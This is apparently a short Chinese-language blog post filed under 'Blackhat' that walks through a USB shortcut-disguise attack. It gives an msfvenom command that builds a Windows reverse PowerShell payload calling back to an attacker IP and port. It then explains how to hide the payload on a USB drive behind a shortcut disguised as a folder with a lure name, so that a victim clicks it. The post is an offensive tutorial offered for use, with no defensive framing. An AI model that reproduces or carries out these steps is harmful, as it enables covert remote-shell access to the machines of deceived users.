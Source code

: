 ```yaml
---
title: U盘伪装快捷方式欺骗攻击
name: u-fake-attacker
date: 2017-11-12
tags: [link]
categories: [Blackhat]
---
```


* 目录
{:toc}

## 1. 生成脚本木马

```shell
msfvenom –p cmd/windows/reverse_powershell lhost=192.168.1.15 lport=43221  > file.bat
```

## 2. U盘放置木马

在U盘创建一个空文件夹，将木马程序放到文件夹中，并对此木马程序创建快捷方式，将快捷方式剪切到此文件夹之外。

## 3. 伪装隐藏

将快捷方式图标设置为文件夹的方式，重命名，如"18++"

第一步创建的文件夹设置为隐藏模式

## 4. 诱骗点击

此时U盘中只会看见一个"18++"的"文件夹"，其实是伪装的脚本木马程序。
